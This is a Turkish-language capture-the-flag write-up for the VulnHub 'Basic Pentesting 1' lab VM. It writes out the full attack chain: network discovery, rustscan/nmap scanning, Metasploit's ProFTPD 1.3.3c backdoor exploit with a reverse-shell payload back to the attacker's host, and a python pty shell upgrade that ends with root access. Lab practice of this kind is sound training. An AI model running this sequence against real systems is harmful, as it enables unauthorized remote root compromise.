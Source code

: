 # VULNHUB BASIC PENTESTING WRITEUP

## Makine Kurulumu 
Makineyi kurmak için https://download.vulnhub.com/basicpentesting/basic_pentesting_1.ova dosyasini indirip virtualbox ı kurduktan sonra .ova dosyasına çift 
tıkladıktan sonra ağ olarak köprü ağını seçmeniz yeterli (bu sayede makine direk local ağınıza bağlanıcak). 

## Çözüm Adımları 
Makinenin ip sini öğrenmek için netdiscover aracını kullanıyoruz: 

```bash
netdiscover 
```

![Resim1](pics/lab1_1.png)

ip yi tespit ettikten sonra rustscan aracı ile port taraması başlatıyoruz: 
```bash
rustscan -a 192.168.1.60 -- -sC -sV 
```
-a ip belirtir 
-- rustscanden nmap e geçer 
-sC nmap e script taraması yapmasını söyler 
-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/lab1_2.png)


![Resim2](pics/lab1_3.png)

Tarama sonucunda 21 portunda ProFTP 1.3.3c servisinin çalıştığını görüyoruz. Bu yazılım üzerinde bilinen bir zafiyet olup olmadığına bakmak için metasploitte 
arama yapıyoruz: 

```bash
msfconsole -q
```
-q metasploiti bannersiz daha hızlı açmayı sağlar 

```bash
search proftp
```

![Resim3](pics/lab1_4.png)

Yaptığımız arama sonucunda bu sürüm için metasploitte bir backdoor olduğunu görüyoruz . Exploiti çalıştırmak için aşağıdaki komutları kullanıyoruz: 

```bash
use 17
```
```bash
set rhosts 192.168.1.60
```
```bash
set rport 21 
```
```bash
show payloads
```
```bash
set payload 4 
```
```bash
set lhost 192.168.1.59
```
```bash
set lport 1337 
```
```bash
run 
```

Ve içerdeyiz. Shellimizi interaktif hale getirmek için aşağıdaki python kodlarını kullanıyoruz: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Bu sayede pythondaki pty kutuphanesi ile bash shell i almış oluyoruz . Kim olduğumuzu kontrol ettiğimizde ise root olduğumuzu görüyoruz ve privilege 
escalation yapmamıza gerek kalmamasının mutluluğu içerisinde odayı bitiriyoruz. 





